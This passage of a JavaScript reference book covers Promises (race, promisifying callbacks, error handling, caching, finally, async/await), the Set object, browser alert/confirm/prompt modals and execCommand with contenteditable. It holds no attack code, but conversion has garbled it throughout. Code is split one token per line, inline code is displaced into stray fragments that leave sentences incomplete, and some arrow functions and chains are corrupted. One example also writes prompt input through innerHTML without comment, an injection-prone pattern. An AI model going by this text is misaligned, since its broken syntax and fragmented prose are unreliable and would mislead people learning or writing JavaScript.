  [reduce](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)   [()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/Reduce)\'s   Promise.reject   ().   **catch**   (   \...   ).   **catch**   (   \...
                                                                                                            product will be                                                                                                                                                             
    - -       

  

3.).

  
  [then](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)   [(](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)   [successHandler](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)   [,](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)   [errorHandler](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
  -  -  -

  

4\. We manually append
[.)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/then)
after the reduce, to execute successHandler once any of the previous
steps has resolved. If all steps were to fail, then errorHandler would
execute.

  
  Promise.any        () (as implemented in             bluebird.js
  -  -

  

Note: The \"catch\" reduction is a sequential counterpart of , but not
currently in native ECMAScript).

## Section 42.5: Waiting for the first of multiple concurrent promises

  -
  [Promise.race](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/race)
  -

  -

The
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/race)
static method accepts an iterable of Promises and returns a new
Promise which resolves or rejects as soon as the **first** of the
promises in the iterable has resolved or rejected.

*// wait \"milliseconds\" milliseconds, then resolve with \"value\"*

**function**

resolve

(

value

,

milliseconds

)

{

**return**

**new**

Promise

(

resolve

=\>

setTimeout

(

(

)

=\>

resolve

(

value

)

,

milliseconds

)

)

;

}

*// wait \"milliseconds\" milliseconds, then reject with \"reason\"*

**function**

reject

(

reason

,

milliseconds

)

{

**return**

**new**

Promise

(

(

\_

,

reject

)

=\>

setTimeout

(

(

)

=\>

reject

(

reason

)

,

milliseconds

)

)

;

}

Promise.

race

(

\[

resolve

(

1

,

5000

)

,

resolve

(

2

,

3000

)

,

resolve

(

3

,

1000

)

\]

)

.

then

(

value

=\>

console.

log

(

value

)

)

;

*// outputs \"3\" after 1 second.*

Promise.

race

(

\[

reject

(

**new**

Error

(

\'bad things!\'

)

,

1000

)

,

resolve

(

2

,

2000

)

\]

)

.

then

(

value

=\>

console.

log

(

value

)

)

*// does not output anything*

.

**catch**

(

error

=\>

console.

log

(

error.

message

)

)

;

*// outputs \"bad things!\" after 1 second*

## Section 42.6: \"Promisifying\" functions with callbacks

Given a function that accepts a Node-style callback,

fooFn

(

options

,

**function**

callback

(

err

,

result

)

{

\...

}

)

;

you can promisify it *(convert it to a promise-based function)* like
this:

**function**

promiseFooFn

(

options

)

{

**return**

**new**

Promise

(

(

resolve

,

reject

)

=\>

fooFn

(

options

,

(

err

,

result

)

=\>

*// If there\'s an error, reject; otherwise resolve*

err

?

reject

(

err

)

:

resolve

(

result

)

)

)

;

}

This function can then be used as follows:

promiseFooFn

(

options

)

.

then

(

result

=\>

{

*// success!*

}

)

.

**catch**

(

err

=\>

{

*// error!*

}

)

;

In a more generic way, here\'s how to promisify any given
callback-style function:

**function**

promisify

(

func

)

{

**return**

**function**

(

\...

args

)

{

**return**

**new**

Promise

(

(

resolve

,

reject

)

=\>

{

func

(

\...

args

,

(

err

,

result

)

=\>

err

?

reject

(

err

)

:

resolve

(

result

)

)

;

}

)

;

}

}

This can be used like this:

**const**

fs

=

require

(

\'fs\'

)

;

**const**

promisedStat

=

promisify

(

fs.

stat

.

bind

(

fs

)

)

;

promisedStat

(

\'/foo/bar\'

)

.

then

(

stat

=\>

console.

log

(

\'STATE\'

,

stat

)

)

.

**catch**

(

err

=\>

console.

log

(

\'ERROR\'

,

err

)

)

;

## Section 42.7: Error Handling

Errors thrown from promises are handled by the second parameter
(reject) passed to then or by the handler passed to **catch**:

throwErrorAsync

(

)

.

then

(

**null**

,

error

=\>

{

*/\* handle error here \*/*

}

)

;

*// or*

throwErrorAsync

(

)

.

**catch**

(

error

=\>

{

*/\* handle error here \*/*

}

)

;

**Chaining**
>
If you have a promise chain then an error will cause resolve handlers
to be skipped:

throwErrorAsync

(

)

.

then

(

(

)

=\>

{

*/\* never called \*/*

}

)

.

**catch**

(

error

=\>

{

*/\* handle error here \*/*

}

)

;

The same applies to your then functions. If a resolve handler throws
an exception then the next reject handler will be invoked:

doSomethingAsync

(

)

.

then

(

result

=\>

{

throwErrorSync

(

)

;

}

)

.

then

(

(

)

=\>

{

*/\* never called \*/*

}

)

.

**catch**

(

error

=\>

{

*/\* handle error from throwErrorSync() \*/*

}

)

;

An error handler returns a new promise, allowing you to continue a
promise chain. The promise returned by the error handler is resolved
with the value returned by the handler:

throwErrorAsync

(

)

.

**catch**

(

error

=\>

{

*/\* handle error here \*/*

;

**return**

result

;

}

)

.

then

(

result

=\>

{

*/\* handle result here \*/*

}

)

;

You can let an error cascade down a promise chain by re-throwing the
error:

throwErrorAsync

(

)

.

**catch**

(

error

=\>

{

*/\* handle error from throwErrorAsync() \*/*

**throw**

error

;

}

)

.

then

(

(

)

=\>

{

*/\* will not be called if there\'s an error \*/*

}

)

.

**catch**

(

error

=\>

{

*/\* will get called with the same error \*/*

}

)

;

It is possible to throw an exception that is not handled by the
promise by wrapping the **throw** statement inside a setTimeout
callback:

**new**

Promise

(

(

resolve

,

reject

)

=\>

{

setTimeout

(

(

)

=\>

{

**throw**

**new**

Error

(

)

;

}

)

;

}

)

;

This works because promises cannot handle exceptions thrown
asynchronously. **Unhandled rejections**
>
An error will be silently ignored if a promise doesn\'t have a
**catch** block or reject handler:

throwErrorAsync

(

)

.

then

(

(

)

=\>

{

*/\* will not be called \*/*

}

)

;

*// error silently ignored*

To prevent this, always use a **catch** block:

throwErrorAsync

(

)

.

then

(

(

)

=\>

{

*/\* will not be called \*/*

}

)

.

**catch**

(

error

=\>

{

*/\* handle error\*/*

}

)

;

*// or*

throwErrorAsync

(

)

.

then

(

(

)

=\>

{

*/\* will not be called \*/*

}

,

error

=\>

{

*/\* handle error\*/*

}

)

;

Alternatively, subscribe to the
[unhandledrejection](https://developer.mozilla.org/en-US/docs/Web/Events/unhandledrejection)
event to catch any unhandled rejected promises:

window.

addEventListener

(

\'unhandledrejection\'

,

event

=\>

{

}

)

;

Some promises can handle their rejection later than their creation
time. The
[rejectionhandled](https://developer.mozilla.org/en-US/docs/Web/Events/rejectionhandled)
event gets fired whenever such a promise is handled:

window.

addEventListener

(

\'unhandledrejection\'

,

event

=\>

console.

log

(

\'unhandled\'

)

)

;

window.

addEventListener

(

\'rejectionhandled\'

,

event

=\>

console.

log

(

\'handled\'

)

)

;

**var**

p

=

Promise.

reject

(

\'test\'

)

;

setTimeout

(

(

)

=\>

p\.

**catch**

(

console.

log

)

,

1000

)

;

*// Will print \'unhandled\', and after one second \'test\' and
\'handled\'*

  
  event.reason       is the error object and         event.promise
  -  

  

The event argument contains information about the rejection. is the
promise object that caused the event.
>
In Nodejs the rejectionhandled and unhandledrejection events are
called
[rejectionHandled](https://nodejs.org/api/process.html#process_event_rejectionhandled)
and
[unhandledRejection](https://nodejs.org/api/process.html#process_event_unhandledrejection)
on process, respectively, and have a different signature:
>
process.on(\'rejectionHandled\', (reason, promise) =\{});
process.on(\'unhandledRejection\', (reason, promise) =\{});
>
The reason argument is the error object and the promise argument is a
reference to the promise object that caused the event to fire.
>
Usage of these unhandledrejection and rejectionhandled events should
be considered for debugging purposes only. Typically, all promises
should handle their rejections.
>
**Note:** Currently, only Chrome 49+ and Node.js support
unhandledrejection and rejectionhandled events.
>
**Caveats**
>
**Chaining with fulfill and reject**

  -
  then           (   fulfill                  ,   reject
    -  -

  -

The ) function (with both parameters not **null**) has unique and
complex behavior, and shouldn\'t be used unless you know exactly how
it works.
>
The function works as expected if given **null** for one of the
inputs:

*// the following calls are equivalent*

promise.

then

(

fulfill

,

**null**

)

promise.

then

(

fulfill

)

*// the following calls are also equivalent*

promise.

then

(

**null**

,

reject

)

promise.

**catch**

(

reject

)

However, it adopts unique behavior when both inputs are given:

*// the following calls are not equivalent!*

promise.

then

(

fulfill

,

reject

)

promise.

then

(

fulfill

)

.

**catch**

(

reject

)

*// the following calls are not equivalent!*

promise.

then

(

fulfill

,

reject

)

promise.

**catch**

(

reject

)

.

then

(

fulfill

)

  
  then   (   fulfill   ,   reject   ) function looks like it is a then   (   fulfill   ).   **catch**   (   reject
                                    shortcut for                                                            
              

  

The ), but it is not, and
>
will cause problems if used interchangeably. One such problem is that
the reject handler does not handle errors from the fulfill handler.
Here is what will happen:
>
Promise.resolve() *// previous promise is fulfilled*
>
.then(() =\{ **throw** **new** Error(); }, *// error in the fulfill
handler* error =\{ */\* this is not called! \*/* });
>
The above code will result in a rejected promise because the error is
propagated. Compare it to the following code, which results in a
fulfilled promise:
>
Promise.resolve() *// previous promise is fulfilled*
>
.then(() =\{ **throw** **new** Error(); }) *// error in the fulfill
handler*
>
.**catch**(error =\{ */\* handle error \*/* });

  
  then   (   fulfill   ,   reject   ) interchangeably     **catch**   (   reject   ).   then   (   fulfill
                                    with                                                           
              

  

A similar problem exists when using ), except with propagating
fulfilled promises instead of rejected promises. **Synchronously
throwing from function that should return a promise** Imagine a
function like this:

**function**

foo

(

arg

)

{

**if**

(

arg

===

\'unexepectedValue\'

)

{

**throw**

**new**

Error

(

\'UnexpectedValue\'

)

}

**return**

**new**

Promise

(

resolve

=\>

setTimeout

(

(

)

=\>

resolve

(

arg

)

,

1000

)

)

}

If such function is used in the **middle** of a promise chain, then
apparently there is no problem:

makeSomethingAsync

(

)

.

.

then

(

(

)

=\>

foo

(

\'unexpectedValue\'

)

)

.

**catch**

(

err

=\>

console.

log

(

err

)

)

*// \<\ Error: UnexpectedValue will be caught here*

However, if the same function is called outside of a promise chain,
then the error will not be handled by it and will be thrown to the
application:
>
foo(\'unexpectedValue\') *// \<\ error will be thrown, so the
application will crash*
>
.then(makeSomethingAsync) *// \<\ will not run*
>
.**catch**(err =\console.log(err)) *// \<\ will not catch*
>
There are 2 possible workarounds:
>
**Return a rejected promise with the error**
>
Instead of throwing, do as follows:

**function**

foo

(

arg

)

{

**if**

(

arg

===

\'unexepectedValue\'

)

{

**return**

Promise.

reject

(

**new**

Error

(

\'UnexpectedValue\'

)

)

}

**return**

**new**

Promise

(

resolve

=\>

setTimeout

(

(

)

=\>

resolve

(

arg

)

,

1000

)

)

}

**Wrap your function into a promise chain**
>
Your **throw** statement will be properly caught when it is already
inside a promise chain:

**function**

foo

(

arg

)

{

**return**

Promise.

resolve

(

)

.

then

(

(

)

=\>

{

**if**

(

arg

===

\'unexepectedValue\'

)

{

**throw**

**new**

Error

(

\'UnexpectedValue\'

)

}

**return**

**new**

Promise

(

resolve

=\>

setTimeout

(

(

)

=\>

resolve

(

arg

)

,

1000

)

)

}

)

}

## Section 42.8: Reconciling synchronous and asynchronous operations

In some cases you may want to wrap a synchronous operation inside a
promise to prevent repetition in code branches. Take this example:

**if**

(

result

)

{

*// if we already have a result*

processResult

(

result

)

;

*// process it*

}

**else**

{

fetchResult

(

)

.

then

(

processResult

)

;

}

The synchronous and asynchronous branches of the above code can be
reconciled by redundantly wrapping the synchronous operation inside a
promise:

**var**

fetch

=

result

?

Promise.

resolve

(

result

)

:

fetchResult

(

)

;

fetch.

then

(

processResult

)

;

When caching the result of an asynchronous call, it is preferable to
cache the promise rather than the result itself. This ensures that
only one asynchronous operation is required to resolve multiple
parallel requests.
>
Care should be taken to invalidate cached values when error conditions
are encountered.

*// A resource that is not expected to change frequently*

**var**

planets

=

\'http://swapi.co/api/planets/\'

;

*// The cached promise, or null*

**var**

cachedPromise

;

**function**

fetchResult

(

)

{

**if**

(

!

cachedPromise

)

{

cachedPromise

=

fetch

(

planets

)

.

**catch**

(

**function**

(

e

)

{

*// Invalidate the current result to retry on the next fetch*

cachedPromise

=

**null**

;

*// re-raise the error to propagate it to callers*

**throw**

e

;

}

)

;

}

**return**

cachedPromise

;

}

## Section 42.9: Delay function call

  
  [setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/WindowTimers/setTimeout)
  

  

The
[()](https://developer.mozilla.org/en-US/docs/Web/API/WindowTimers/setTimeout)
method calls a function or evaluates an expression after a specified
number of milliseconds. It is also a trivial way to achieve an
asynchronous operation.
>
In this example calling the wait function resolves the promise after
the time specified as first argument:

**function**

wait

(

ms

)

{

**return**

**new**

Promise

(

resolve

=\>

setTimeout

(

resolve

,

ms

)

)

;

}

wait

(

5000

)

.

then

(

(

)

=\>

{

console.

log

(

\'5 seconds have passed\...\'

)

;

}

)

;

## Section 42.10: \"Promisifying\" values

  
  [Promise.resolve](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/resolve)
  

  

The static method can be used to wrap values into promises.

**let**

resolved

=

Promise.

resolve

(

2

)

;

resolved.

then

(

value

=\>

{

*// immediately invoked*

*// value === 2*

}

)

;

  
  [Promise.resolve](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/resolve)
  

  

If value is already a promise, simply recasts it.

**let**

one

=

**new**

Promise

(

resolve

=\>

setTimeout

(

(

)

=\>

resolve

(

2

)

,

1000

)

)

;

**let**

two

=

Promise.

resolve

(

one

)

;

two.

then

(

value

=\>

{

*// 1 second has passed*

*// value === 2*

}

)

;

  
  [Promise.resolve](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/resolve)
  

  

In fact, value can be any \"thenable\" (object defining a then method
that works sufficiently like a spec-compliant promise). This allows to
convert untrusted 3rd-party objects into trusted 1st-party Promises.

**let**

resolved

=

Promise.

resolve

(

{

then

(

onResolved

)

{

onResolved

(

2

)

;

}

}

)

;

resolved.

then

(

value

=\>

{

*// immediately invoked*

*// value === 2*

}

)

;

  
  [Promise.reject](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise/reject)
  

  

The static method returns a promise which immediately rejects with the
given reason.

**let**

rejected

=

Promise.

reject

(

\"Oops!\"

)

;

rejected.

**catch**

(

reason

=\>

{

*// immediately invoked*

*// reason === \"Oops!\"*

}

)

;

## Section 42.11: Using ES2017 async/await

  
  **try**                 /       **catch**
   - 

  

The same example above, Image loading, can be written using async
functions. This also allows using the common method for exception
handling.
>
Note: [as of April 2017, the current releases of all browsers but
Internet Explorer supports async
functions](http://caniuse.com/#feat=async-functions).

**function**

loadImage

(

url

)

{

**return**

**new**

Promise

(

(

resolve

,

reject

)

=\>

{

**const**

img

=

**new**

Image

(

)

;

img.

addEventListener

(

\'load\'

,

(

)

=\>

resolve

(

img

)

)

;

img.

addEventListener

(

\'error\'

,

(

)

=\>

{

reject

(

**new**

Error

(

\`Failed to load \$

{

url

}

\`

)

)

;

}

)

;

img.

src

=

url

;

}

)

;

}

(

async

(

)

=\>

{

*// load /image.png and append to #image-holder, otherwise throw error*

**try**

{

**let**

img

=

await loadImage

(

\'http://example.com/image.png\'

)

;

document.

getElementById

(

\'image-holder\'

)

.

appendChild

(

img

)

;

}

**catch**

(

error

)

{

console.

error

(

error

)

;

}

}

)

(

)

;

## Section 42.12: Performing cleanup with finally()

There is currently a
[proposal](https://github.com/tc39/proposal-promise-finally) (not yet
part of the ECMAScript standard) to add a **finally** callback to
promises that will be executed regardless of whether the promise is
fulfilled or rejected. Semantically, this is similar to the
[**finally** clause of the **try**
block](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/try...catch#The_finally_clause).
>
You would usually use this functionality for cleanup:

**var**

loadingData

=

**true**

;

fetch

(

\'/data\'

)

.

then

(

result

=\>

processData

(

result.

data

)

)

.

**catch**

(

error

=\>

console.

error

(

error

)

)

.

**finally**

(

(

)

=\>

{

loadingData

=

**false**

;

}

)

;

It is important to note that the **finally** callback doesn\'t affect
the state of the promise. It doesn\'t matter what value it returns,
the promise stays in the fulfilled/rejected state that it had before.
So in the example above the promise

  
  processData                       (   result.data
    

  

will be resolved with the return value of ) even though the
**finally** callback returned **undefined**.
>
With the standardization process still being in progress, your
promises implementation most likely won\'t support **finally**
callbacks out of the box. For synchronous callbacks you can add this
functionality with a polyfill however:

**if**

(

!

Promise.

**prototype**

.

**finally**

)

{

Promise.

**prototype**

.

**finally**

=

**function**

(

callback

)

{

**return**

**this**

.

then

(

result

=\>

{

callback

(

)

;

**return**

result

;

}

,

error

=\>

{

callback

(

)

;

**throw**

error

;

}

)

;

}

;

}

## Section 42.13: forEach with promises

It is possible to effectively apply a function (cb) which returns a
promise to each element of an array, with each element waiting to be
processed until the previous element is processed.

**function**

promiseForEach

(

arr

,

cb

)

{

**var**

i

=

0

;

**var**

nextPromise

=

**function**

(

)

{

**if**

(

i

\>=

arr.

length

)

{

*// Processing finished.*

**return**

;

}

*// Process next function. Wrap in \`Promise.resolve\` in case*

*// the function does not return a promise*

**var**

newPromise

=

Promise.

resolve

(

cb

(

arr

\[

i

\]

,

i

)

)

;

i

++

;

*// Chain to finish processing.*

**return**

newPromise.

then

(

nextPromise

)

;

}

;

*// Kick off the chain.*

**return**

Promise.

resolve

(

)

.

then

(

nextPromise

)

;

}

;

This can be helpful if you need to efficiently process thousands of
items, one at a time. Using a regular **for** loop to create the
promises will create them all at once and take up a significant amount
of RAM.

## Section 42.14: Asynchronous API request

This is an example of a simple GET API call wrapped in a promise to
take advantage of its asynchronous functionality.

**var**

**get**

=

**function**

(

path

)

{

**return**

**new**

Promise

(

**function**

(

resolve

,

reject

)

{

**let**

request

=

**new**

XMLHttpRequest

(

)

;

request.

open

(

\'GET\'

,

path

)

;

request.

onload

=

resolve

;

request.

onerror

=

reject

;

request.

send

(

)

;

}

)

;

}

;

More robust error handling can be done using the following
[onload](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequestEventTarget/onload)
and
[onerror](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequestEventTarget/onerror)
functions.

request.

onload

=

**function**

(

)

{

**if**

(

**this**

.

status

\>=

200

&&

**this**

.

status

\<

300

)

{

**if**

(

request.

response

)

{

*// Assuming a successful call returns JSON*

resolve

(

JSON.

parse

(

request.

response

)

)

;

}

**else**

{

resolve

(

)

;

}

**else**

{

reject

(

{

\'status\'

:

**this**

.

status

,

\'message\'

:

request.

statusText

}

)

;

}

}

;

request.

onerror

=

**function**

(

)

{

reject

(

{

\'status\'

:

**this**

.

status

,

\'message\'

:

request.

statusText

}

)

;

}

;

# Chapter 43: Set

**Parameter Details**

If an iterable object is passed, all of its elements will be added to
the new Set. null is treated as iterable undefined.
>
value The value of the element to add to the Set object. callback
Function to execute for each element. thisArg Optional. Value to use
as this when executing callback.
>
The Set object lets you store unique values of any type, whether
primitive values or object references.
>
Set objects are collections of values. You can iterate through the
elements of a set in insertion order. A value in the Set may only
occur **ONCE**; it is unique in the Set\'s collection. Distinct values
are discriminated using the *SameValueZero* comparison algorithm.
>
[Standard Specification About
Set](http://www.ecma-international.org/ecma-262/6.0/#sec-set-objects)

## Section 43.1: Creating a Set

The Set object lets you store unique values of any type, whether
primitive values or object references.
>
You can push items into a set and iterate them similar to a plain
JavaScript array, but unlike array, you cannot add a value to a Set if
the value already exist in it.
>
To create a new set:

**const**

mySet

=

**new**

Set

(

)

;

Or you can create a set from any iterable object to give it starting
values:

**const**

arr

=

\[

1

,

2

,

3

,

4

,

4

,

5

\]

;

**const**

mySet

=

**new**

Set

(

arr

)

;

In the example above the set content would be

{

1

,

2

,

3

,

4

,

5

}

. Note that the value 4 appears only once, unlike in

the original array used to create it.

## Section 43.2: Adding a value to a Set

  
  add
  

  

To add a value to a Set, use the .() method:

mySet.

add

(

5

)

;

If the value already exist in the set it will not be added again, as
Sets contain unique values.

  
  add
  

  

Note that the .() method returns the set itself, so you can chain add
calls together:

mySet.

add

(

1

)

.

add

(

2

)

.

add

(

3

)

;

## Section 43.3: Removing value from a set

  
  **delete**
  

  

To remove a value from a set, use .() method:

mySet.

**delete**

(

some_val

)

;

This function will return **true** if the value existed in the set and
was removed, or **false** otherwise.

## Section 43.4: Checking if a value exist in a set

  
  has
  

  

To check if a given value exists in a set, use .() method:

mySet.

has

(

someVal

)

;

Will return **true** if someVal appears in the set, **false**
otherwise.

## Section 43.5: Clearing a Set

  
  clear
  

  

You can remove all the elements in a set using the .() method:

mySet.

clear

(

)

;

## Section 43.6: Getting set length

  
  size
  

  

You can get the number of elements inside the set using the . property

**const**

mySet

=

**new**

Set

(

\[

1

,

2

,

2

,

3

\]

)

;

mySet.

add

(

4

)

;

mySet.

size

;

*// 4*

  
  Array            .   **prototype**                 .   length
  -    

  

This property, unlike , is read-only, which means that you can\'t
change it by assigning something to it:

mySet.

size

=

5

;

mySet.

size

;

*// 4*

In strict mode it even throws an error:
>
TypeError: Cannot **set** property size of #\<Set\which has only a
getter

## Section 43.7: Converting Sets to arrays

  
  Array                   .    **prototype**
    -

  

Sometimes you may need to convert a Set to an array, for example to be
able to use methods like

  
  filter   (). In order to do so,  Array   .   from   () or destructuring   \-   assignment
           use                                                                   
    -   -   

  

.:

**var**

mySet

=

**new**

Set

(

\[

1

,

2

,

3

,

4

\]

)

;

*//use Array.from*

**const**

myArray

=

Array

.

from

(

mySet

)

;

*//use destructuring-assignment*

**const**

myArray

=

\[

\...

mySet

\]

;

Now you can filter the array to contain only even numbers and convert
it back to Set using Set constructor:

mySet

=

**new**

Set

(

myArray.

filter

(

x

=\>

x

\%

2

===

0

)

)

;

mySet now contains only even numbers:

console.

log

(

mySet

)

;

*// Set {2, 4}*

## Section 43.8: Intersection and dierence in Sets

There are no build-in methods for intersection and difference in Sets,
but you can still achieve that but converting them to arrays,
filtering, and converting back to Sets:
>
**var** set1 = **new** Set(\[1, 2, 3, 4\]), set2 = **new** Set(\[3, 4,
5, 6\]);
>
**const** intersection = **new** Set(Array.from(set1).filter(x =\>
set2.has(x)));*//Set {3, 4}* **const** difference = **new**
Set(Array.from(set1).filter(x =\!set2.has(x))); *//Set {1, 2}*

## Section 43.9: Iterating Sets

You can use a simple for-of loop to iterate a Set:

**const**

mySet

=

**new**

Set

(

\[

1

,

2

,

3

\]

)

;

**for**

(

**const**

value of mySet

)

{

console.

log

(

value

)

;

*// logs 1, 2 and 3*

}

When iterating over a set, it will always return values in the order
they were first added to the set. For example:

**const**

**set**

=

**new**

Set

(

\[

4

,

5

,

6

\]

)

**set**

.

add

(

10

)

**set**

.

add

(

5

)

*//5 already exists in the set*

Array

.

from

(

**set**

)

*//\[4, 5, 6, 10\]*

  -
  forEach    () method, similar to       Array   .   **prototype**   .   forEach
  -  -    -

  -

There\'s also a .(). It has two parameters, callback, which will be
executed for each element, and optional thisArg, which will be used as
**this** when executing callback.

  -
  Array   .   **prototype**   .   forEach   () and   Map.**prototype**   .   forEach
  -        

  -

callback has three arguments. The first two arguments are both the
current element of Set (for consistency with ()) and the third
argument is the Set itself.
>
mySet.forEach((value, value2, **set**) =\console.log(value)); *//
logs 1, 2 and 3*

# Chapter 44: Modals - Prompts

## Section 44.1: About User Prompts

[User
Prompts](https://www.w3.org/TR/html5/webappapis.html#user-prompts) are
methods part of the [Web Application
API](https://www.w3.org/TR/html5/webappapis.html#webappapis) used to
invoke Browser modals requesting a user action such as confirmation or
input.

**window.alert(message)**

Show a modal *popup* with a message to the user. Requires the user to
click \[OK\] to dismiss.

alert

(

\"Hello World\"

)

;

More information below in \"Using alert()\".

**boolean = window.confirm(message)**

Show a modal *popup* with the provided message.
>
Provides \[OK\] and \[Cancel\] buttons which will respond with a
boolean value **true** / **false** respectively.

confirm

(

\"Delete this comment?\"

)

;

**result = window.prompt(message, defaultValue)**

Show a modal *popup* with the provided message and an input field with
an optional pre-filled value. Returns as result the user provided
input value.

prompt

(

\"Enter your website address\"

,

\"http://\"

)

;

More information below in \"Usage of prompt()\".

**window.print()**

Opens a modal with document print options.

print

(

)

;

## Section 44.2: Persistent Prompt Modal

When using **prompt** a user can always click ***Cancel*** and no
value will be returned. To prevent empty values and make it more
**persistent**:

**\<**

**h**

**2**

**\>**

Welcome

**\<**

**span**

id

=

\"name\"

**\>**

**\<**

**/span**

**\>**

!

**\<**

**/h**

**2**

**\>**

\<

script

\>

*// Persistent Prompt modal*

**var**

userName

;

while

(

!

userName

)

{

userName

=

prompt

(

\"Enter your name\"

,

\"\"

)

;

**if**

(

!

userName

)

{

alert

(

\"Please, we need your name!\"

)

;

}

**else**

{

document.

getElementById

(

\"name\"

)

.

innerHTML

=

userName

;

}

}

\<

/

script

\>

[jsFiddle demo](https://jsfiddle.net/RokoCB/2r3ekqzk/1/)

## Section 44.3: Confirm to Delete element

  
  confirm
  

  

A way to use () is when some UI action does some *destructive* changes
to the page and is better accompanied by a **notification** and a
**user confirmation** - like i.e. before deleting a post message:

**\<**

**div**

id

=

\"post-102\"

**\>**

**\<**

**p**

**\>**

I like Confirm modals.

**\<**

**/p**

**\>**

**\<**

**a**

data-deletepost

=

\"post-102\"

**\>**

Delete post

**\<**

**/a**

**\>**

**\<**

**/div**

**\>**

**\<**

**div**

id

=

\"post-103\"

**\>**

**\<**

**p**

**\>**

That\'s way too cool!

**\<**

**/p**

**\>**

**\<**

**a**

data-deletepost

=

\"post-103\"

**\>**

Delete post

**\<**

**/a**

**\>**

**\<**

**/div**

**\>**

*// Collect all buttons*

**var**

deleteBtn

=

document.

querySelectorAll

(

\"\[data-deletepost\]\"

)

;

**function**

deleteParentPost

(

event

)

{

event.

preventDefault

(

)

;

*// Prevent page scroll jump on anchor click*

**if**

(

confirm

(

\"Really Delete this post?\"

)

)

{

**var**

post

=

document.

getElementById

(

**this**

.

dataset

.

deletepost

)

;

post.

parentNode

.

removeChild

(

post

)

;

*// TODO: remove that post from database*

}

*// else, do nothing*

}

*// Assign click event to buttons*

\[

\]

.

forEach

.

call

(

deleteBtn

,

**function**

(

btn

)

{

btn.

addEventListener

(

\"click\"

,

deleteParentPost

,

**false**

)

;

}

)

;

[jsFiddle demo](https://jsfiddle.net/RokoCB/6d652ycL/)

## Section 44.4: Usage of alert()

  
  alert
  

  

The () method of the window object displays an *alert box* with a
specified message and an OK or Cancel button. The text of that button
depends on the browser and can\'t be modified.
>
**Syntax**

alert

(

\"Hello world!\"

)

;

*// Or, alternatively\...*

window.

alert

(

\"Hello world!\"

)

;

**Produces**

{width="4.666666666666667in"
height="1.5041666666666667in"}

An *alert box* is often used if you want to make sure information
comes through to the user.
>
**Note:** The alert box takes the focus away from the current window,
and forces the browser to read the message.
>
Do not overuse this method, as it prevents the user from accessing
other parts of the page until the box is closed. Also it stops the
further code execution, until user clicks OK . (in particular, the
timers which were set with

  -
  setInterval                    () or         setTimeout
  - - 

  -

() don\'t tick either). The alert box only works in browsers, and its
design cannot be

modified.

**Parameter Description**

Required. Specifies the text to display in the alert box, or an object
converted into a string and message
>
displayed.
>
**Return value** alert function doesn\'t return any value

## Section 44.5: Usage of prompt()

Prompt will display a dialog to the user requesting their input. You
can provide a message that will be placed above the text field. The
return value is a string representing the input provided by the user.

**var**

name

=

prompt

(

\"What\'s your name?\"

)

;

console.

log

(

\"Hello, \"

\+

name

)

;

  
  prompt
  

  

You can also pass () a second parameter, which will be displayed as
the default text in the prompt\'s text field.

**var**

name

=

prompt

(

\'What

**\\\'**

s your name?\'

,

\' Name\...\'

)

;

console.

log

(

\'Hello, \'

\+

name

)

;

**Parameter Description**

message Required. Text to display above the text field of the prompt.
default Optional. Default text to display in the text field when the
prompt is displayed.

# Chapter 45: execCommand and contenteditable

**commandId value**

⋮ **Inline formatting commands**

  
  backColor                              Color value String
   -
  bold                                   

  createLink                             URL String

  fontName                               Font family name

  fontSize                               \"1\", \"2\", \"3\", \"4\",
                                         \"5\", \"6\", \"7\"

  foreColor                              Color value String

  strikeThrough                          

  superscript                            

  unlink                                 
  

⋮ **Block formatting commands** delete

formatBlock \"address\", \"dd\", \"div\", \"dt\", \"h1\", \"h2\",
\"h3\", \"h4\", \"h5\", \"h6\", \"p\", \"pre\"

forwardDelete insertHorizontalRule
>
insertHTML HTML String insertImage URL String insertLineBreak
insertOrderedList insertParagraph insertText Text string
insertUnorderedList justifyCenter justifyFull justifyLeft justifyRight
outdent
>
⋮ **Clipboard commands** copy Currently Selected String cut Currently
Selected String paste
>
⋮ **Miscellaneous commands** defaultParagraphSeparator redo selectAll
styleWithCSS undo useCSS

## Section 45.1: Listening to Changes of contenteditable

Events that work with most form elements (e.g., change, keydown,
keyup, keypress) do not work with contenteditable.
>
Instead, you can listen to changes of contenteditable contents with
the input event. Assuming contenteditableHtmlElement is a JS DOM
object that is contenteditable:

contenteditableHtmlElement.

addEventListener

(

\"input\"

,

**function**

(

)

{

console.

log

(

\"contenteditable element changed\"

)

;

}

)

;

## Section 45.2: Getting started

The HTML attribute contenteditable provides a simple way to turn a
HTML element into a user-editable area

**\<**

**div**

contenteditable

**\>**

You can

**\<**

**b**

**\>**

edit

**\<**

**/b**

**\>**

me!

**\<**

**/div**

**\>**

**Native Rich-Text editing**
>
Using **JavaScript** and
[execCommandW3C](https://w3c.github.io/editing/execCommand.html) you
can additionally pass more editing features to the currently focused
contenteditable element (specifically at the caret position or
selection).
>
The execCommand function method accepts 3 arguments

document.

execCommand

(

commandId

,

showUI

,

value

)

commandId

String. from the list of available \*\*

*commandId*

\*\*s

(

see:

***Parameters***

→

*commandId*

)

showUI

Boolean (not implemented. Use

**false**

)

value

String If a command expects a command-related String

***value***

, otherwise

\"\"

